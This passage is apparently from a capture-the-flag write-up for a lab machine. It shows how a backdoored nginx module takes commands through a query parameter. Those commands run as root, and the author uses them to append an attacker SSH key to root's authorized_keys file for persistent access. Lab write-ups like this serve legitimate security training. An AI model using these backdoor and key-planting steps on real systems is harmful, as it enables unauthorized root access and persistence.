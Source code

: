 The module can be found in the file _/usr/share/nginx/modules/ngx_http_execute_module.so_ and the `strings` show a different parameter:
```
strings /usr/share/nginx/modules/ngx_http_execute_module.so | grep run

ippsec.run
```

With the parameter _ippsec.run_ it is possible to execute commands as root:
```
curl -g "http://127.0.0.1:8000/?ippsec.run[id]"

uid=0(root) gid=0(root) groups=0(root)
```

Generating an SSH key pair on our local client:
```
ssh-keygen -f gobox
```

Uploading the public SSH key into the _.ssh/authorized_keys_ file of root:
```
curl -g "http://127.0.0.1:8000/?ippsec.run[echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAA(...)' >> /root/.ssh/authorized_keys]"

curl -g "http://127.0.0.1:8000/?ippsec.run[chmod 600 /root/.ssh/authorized_keys]"
```

Using the SSH key to login as root:
```
ssh -i gobox root@10.10.11.113
```
